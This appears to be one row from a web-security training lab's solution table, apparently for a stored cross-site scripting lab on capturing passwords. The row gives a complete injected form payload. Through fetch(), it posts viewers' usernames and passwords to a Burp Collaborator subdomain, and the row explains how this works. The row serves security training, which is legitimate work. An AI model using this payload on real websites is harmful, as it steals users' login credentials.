 |15    |Exploiting cross-site scripting to capture passwords                                                                     |<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Practitioner, Stored XSS                    |